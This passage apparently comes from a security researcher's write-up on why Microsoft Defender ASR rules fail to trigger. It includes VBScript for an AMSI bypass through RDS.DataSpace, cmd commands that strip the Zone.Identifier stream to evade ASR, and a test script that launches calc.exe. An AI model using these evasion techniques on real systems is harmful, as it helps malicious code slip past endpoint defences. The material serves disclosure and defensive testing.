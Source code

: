 - A download from a remote URL
- A call to `WScript.Shell.Run` in the same script

**The key reason ASR was not triggered**:  
The download was performed using `MSXML2.ServerXMLHTTP.6.0`, which **does not create** a `Zone.Identifier` alternate data stream (ADS) on the downloaded file.  
ASR relies solely on the **presence** of the `Zone.Identifier` ADS to consider a file as "downloaded from the Internet." Without that ADS, ASR takes no action.

**Additional notes:**

- A simple **AMSI bypass** can be achieved by using `RDS.DataSpace` to launch the executable, evading AMSI scanning:

```
Sub WscriptExec(targetPath)   
  Set comApp = CreateObject("RDS.DataSpace")     
  comApp.CreateObject("Wscript.Shell", "").Run targetPath, 0 
End Sub
```

- To manually **bypass ASR** on files that do have a Zone.Identifier, we can **strip the ADS** using:

```
move file.exe %temp%\tmpfile.dat
type %temp%\tmpfile.dat > file.exe 
del %temp%\tmpfile.dat
```

This technique removes the alternate data stream, making the file appear as trusted (locally created).

* * *

### Why the “Block Execution of Potentially Obfuscated Scripts” Rule Didn’t Trigger

The ASR rule `5BEB7EFE-FD9A-4556-801D-275E5FFC04CC` ("Block execution of potentially obfuscated scripts") is intended to block scripts that look obfuscated or encoded from running.

To test this, I created two VBScript files:

#### 1. Normal VBScript

```
Sub AutoOpen()
WscriptExec "C:\windows\system32\cmd.exe /C calc.exe"
End Sub
' Exec process using WScript.Shell
Sub WscriptExec(targetPath)
    CreateObject("WScript.Shell").Run targetPath, 0
End Sub
AutoOpen
```

This was a **simple, non-obfuscated** script that launches `calc.exe`.
